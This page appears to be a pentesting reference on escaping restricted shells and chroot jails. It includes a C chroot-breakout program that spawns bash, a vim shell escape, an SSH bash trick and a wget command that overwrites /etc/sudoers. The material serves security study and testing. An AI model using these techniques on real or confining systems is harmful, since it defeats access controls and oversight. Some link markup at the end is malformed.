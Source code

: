 # Escaping from restricted shells - Jails

## **GTFOBins**

**Search in** [**https://gtfobins.github.io/**](https://gtfobins.github.io/) **if you can execute any binary with "Shell" property**

## Chroot limitation

From [wikipedia](https://en.wikipedia.org/wiki/Chroot#Limitations):  The chroot mechanism is **not intended to defend** against intentional tampering by **privileged** \(**root**\) **users**. On most systems, chroot contexts do not stack properly and chrooted programs **with sufficient privileges may perform a second chroot to break out**.

Therefore, if you are **root** inside a chroot you **can escape** creating **another chroot**. However, in several cases inside the first chroot you won't be able to execute the chroot command, therefore you will need to compile a binary like the following one and run it:

{% code title="break\_chroot.c" %}
```c
#include <sys/stat.h>
#include <stdlib.h>
#include <unistd.h>

//gcc break_chroot.c -o break_chroot

int main(void)
{
    mkdir("chroot-dir", 0755);
    chroot("chroot-dir");
    for(int i = 0; i < 1000; i++) {
        chdir("..");
    }
    chroot(".");
    system("/bin/bash");
}
```
{% endcode %}

## Modify PATH

Check if you can modify the PATH env variable

```bash
echo $PATH #See the path of the executables that you can use
PATH=/usr/local/sbin:/usr/sbin:/sbin:/usr/local/bin:/usr/bin:/bin #Try to change the path
echo /home/* #List directory
```

## Using vim

```bash
:set shell=/bin/sh
:shell
```

## Create script

Check if you can create an executable file with _/bin/bash_ as content

```bash
red /bin/bash
> w wx/path #Write /bin/bash in a writable and executable path
```

## Get bash from SSH

If you are accessing via ssh you can use this trick to execute a bash shell:

```bash
ssh -t user@<IP> bash # Get directly an interactive shell
```

## Wget

You can overwrite for example sudoers file

```bash
wget http://127.0.0.1:8080/sudoers -O /etc/sudoers
```

## Other tricks

[**https://fireshellsecurity.team/restricted-linux-shell-escaping-techniques/**](https://fireshellsecurity.team/restricted-linux-shell-escaping-techniques/)  
[https://pen-testing.sans.org/blog/2012/0**b**6/06/escaping-restricted-linux-shells](https://pen-testing.sans.org/blog/2012/06/06/escaping-restricted-linux-shells**]%28https://pen-testing.sans.org/blog/2012/06/06/escaping-restricted-linux-shells)  
[https://gtfobins.github.io](https://gtfobins.github.io**]%28https://gtfobins.github.io)  
**It could also be interesting the page:**

{% page-ref page="../useful-linux-commands/bypass-bash-restrictions.md" %}

